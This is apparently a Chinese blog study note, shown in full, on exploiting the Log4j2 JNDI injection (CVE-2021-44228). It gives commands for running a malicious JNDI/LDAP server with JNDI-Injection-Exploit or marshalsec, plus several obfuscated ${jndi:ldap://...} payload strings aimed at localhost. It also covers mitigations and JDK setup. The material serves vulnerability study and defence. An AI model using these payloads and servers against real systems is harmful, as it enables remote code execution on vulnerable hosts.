其实整体看的话就很巧合，刚好解析 jndi 关键字，而且还是无 waf 的，果然是核弹级漏洞！🥵

RCE的话有两种方法，一种是直接利用 JNDI-Injection-Exploit 开启恶意服务

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open -a Calculator" -A "127.0.0.1"
```

还有就是自己编译开启服务

```bash
# https://github.com/RandomRobbieBF/marshalsec-jar

javac Evil.java
python3 -m http.server 8000

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8000/#Eval"
```



对于这个版本发布了两个🍮，一个是 rc1 一个是 rc2，rc2是安全的，rc1存在绕过，简单说说，详细看引用的最后两篇文章，默认的配置的话，加载的类实例为`SimpleMessagePatternConverter`这个类只是简单的拼接Message信息，并不会去尝试解析`${`，所以根本不会有`lookup`操作。但是如果配置文件中指配置文件白名单设置允许 jndi 到指定地址的情况，就可以绕过



借用大佬的一步分析图



写几个可用poc

```json
${${,:-j}ndi:ldap://127.0.0.1:1389/#Eval}
${jndi:ldap://127.0.0.1:1389/#Eval }
${${::-j}ndi:ldap://127.0.0.1:1389/#Eval}
```

## 修复

CVE-2017-5645 直接防止外部访问4712端口即可

CVE-2021-44228 修复

1. 设置log4j2.formatMsgNoLookups=True。相当于直接禁止lookup查询出栈，也就不可能请求到访问到远程的恶意站点。
2. 对包含有"jndi:ldap://"、"jndi:rmi//"、"dns://"这样字符串的请求进行拦截，即拦截JNDI语句来防止JNDI注入。

同时由于我重装服务器这里也放一下如何安装JDK8u202的命令，debian12服务器安装jdk

```bash
wget https://repo.huaweicloud.com:8443/artifactory/java-local/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz

cp jdk-8u202-linux-x64.tar.gz /usr/local
cd /usr/local && tar zxvf jdk-8u202-linux-x64.tar.gz

vim /etc/profile
export JAVA_HOME=/usr/local/jdk1.8.0_202

export JRE_HOME=/usr/local/jdk1.8.0_202/jre

export CLASS_PATH=.:$JAVA_HOME/lib/dt.jar:$JAVA_HOME/lib/tools.jar:$JRE_HOME/lib

export PATH=$PATH:$JAVA_HOME/bin:$JRE_HOME/bin

source /etc/profile

# 注册Java8
sudo update-alternatives --install /usr/bin/java java /usr/local/jdk1.8.0_202/bin/java 1
sudo update-alternatives --install /usr/bin/javac javac /usr/local/jdk1.8.0_202/bin/javac 1
sudo update-alternatives --install /usr/bin/jar jar /usr/local/jdk1.8.0_202/bin/jar 1
# 选java版本
update-alternatives --config java 
```


> https://xz.aliyun.com/news/6606
>
> https://jarenl.com/index.php/2025/03/10/cve_2021_44228/
>
> https://jaspersec.top/posts/1237655284.html
>
> https://www.cnblogs.com/dhan/p/18419927
>
> https://xz.aliyun.com/news/11723
>
> https://www.cnblogs.com/LittleHann/p/17768907.html
>
> https://mp.weixin.qq.com/s/_qA3ZjbQrZl2vowikdPOIg
>
> https://mp.weixin.qq.com/s/XheO7skhvmO-_ygJAx6-cQ
